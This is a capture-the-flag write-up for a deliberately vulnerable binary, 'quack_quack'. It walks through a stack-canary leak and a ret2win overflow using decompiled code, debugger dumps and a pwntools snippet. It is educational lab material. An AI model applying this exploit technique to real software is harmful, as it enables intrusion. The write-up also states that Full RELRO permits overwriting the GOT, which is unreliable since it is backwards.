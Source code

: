 # Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it's time to face the Duck!
(upsolve :( banyak kerjaan njir)

# Analisys

first time off all, we must first check the binary using checksec to find out all the mitigations that are in binary.
like this

```
└─$ pwn checksec quack_quack
[*] '/home/ilupii/htb/cyber_apocalypse/challenge/quack_quack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

as we can see the canary on it mean it is diffcult to perform ROP because there is a random byte before RIP is executed. Full relro mean it we can overwrite the GOT(Global Offset Table) and no pie it mean no address randomization in binary..

## Dissassembly

start with main function

```
undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  duckling();
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```

as we can see the main function just call ducking();

```
void duckling(void)

{
  printf("Quack the Duck!\n\n> ");
  fflush(stdout);
  read(0,&local_88,0x66);
  pcVar1 = strstr((char *)&local_88,"Quack Quack ");
  if (pcVar1 == (char *)0x0) {
    error("Where are your Quack Manners?!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ",pcVar1 + 0x20);
  read(0,&local_68,0x6a);
  puts("Did you really expect to win a fight against a Duck?!\n");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

wee can see here in there our first input and we get a leak of `pcVar1 + 0x20` that means we can leak up to 0x20 from the end of the buffer where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset. After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```

void duck_attack(void)

{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}


```

now, to make sure all the above analysis is correct is debugging

i set break point on duckling+238 or after first read to see the canary where is 

```
pwndbg> x/20gx $rsp
0x7fffffffd750: 0x0000000000000000      0x0000000000000000
0x7fffffffd760: 0x4242424241414141      0x000000000000000a // input 0x10
0x7fffffffd770: 0x0000000000000000      0x0000000000000000 // 0x20
0x7fffffffd780: 0x0000000000000000      0x0000000000000000 // 0x30
0x7fffffffd790: 0x0000000000000000      0x0000000000000000 // 0x40
0x7fffffffd7a0: 0x0000000000000000      0x0000000000000000 // 0x50
0x7fffffffd7b0: 0x0000000000000000      0x0000000000000000 // 0x60
0x7fffffffd7c0: 0x0000000000000000      0x0000000000000000 // 0x70
0x7fffffffd7d0: 0x00007ffff7fa9600      0x7de39dcfc9f2c400 // 0x80
0x7fffffffd7e0: 0x00007fffffffd800      0x000000000040162a
```

we can see the canary lies at `0x80` from the input buffer. As we can leak up to 0x20 bytes, and we can leak the canary address (7 bytes and adding the last 0 due to `read`) at `0x71`

```
>>> 0x71 - len('Quack Quack ')
101
>>> hex(101)
'0x65'
------------------------------------------------------------
python

p.sendlineafter(b'> ',b'A'*(0x65 - len('Quack Quack ')) + b'Quack Quack ')
p.recvuntil(b'Quack Quack ')
a = u64(p.recv(7).rjust(8,b'\x00'))
print("canary",hex(a))
```

run it the exploit to see the canary like this 

```
└─$ python3 e.py
[*] '/home/ilupii/htb/cyber_apocalypse/challenge/src/quack_quack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/ilupii/htb/cyber_apocalypse/challenge/src/quack_quack': pid 2857
canary 0x2af35652a4966100
```

after leak the canary we can setup `ret2win` to print the flag

we set debuging break in duckling+319 in after second read 

```
pwndbg> x/20gx $rsp
0x7fffffffd740: 0x0000000000000002      0x00007fffffffd750
0x7fffffffd750: 0x7551206b63617551      0x0000000a206b6361
0x7fffffffd760: 0x0000000000000000      0x0000000000000000
0x7fffffffd770: 0x4242424241414141      0x0000000a43434343 // input 0x10
0x7fffffffd780: 0x0000000000000000      0x0000000000000000 // 0x20
0x7fffffffd790: 0x0000000000000000      0x0000000000000000 // 0x30
0x7fffffffd7a0: 0x0000000000000000      0x0000000000000000 // 0x40
0x7fffffffd7b0: 0x0000000000000000      0x0000000000000000 // 0x50
0x7fffffffd7c0: 0x00007ffff7fa9600      0x44e442149b25dd00 // 0x60
0x7fffffffd7d0: 0x00007fffffffd7f0      0x000000000040162a
```

We see that the `canary` is at `0x58` bytes from the start of the second buffer. Then a dummy address and then the `return address`. Knowing all this and the address of `duck_attack()`, we can craft our exploit.

# Solution

```
[*] '/home/ilupii/htb/cyber_apocalypse/challenge/src/quack_quack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/ilupii/htb/cyber_apocalypse/challenge/src/quack_quack': pid 3032
canary 0x7d3cd87ced9d5200
[*] Switching to interactive mode
\xf0\xe6;\xea\xfd\x7f, ready to fight the Duck?

> Did you really expect to win a fight against a Duck?!

HTB{f4k3_fl4g_4_t35t1ng}
[*] Got EOF while reading in interactive
$
```


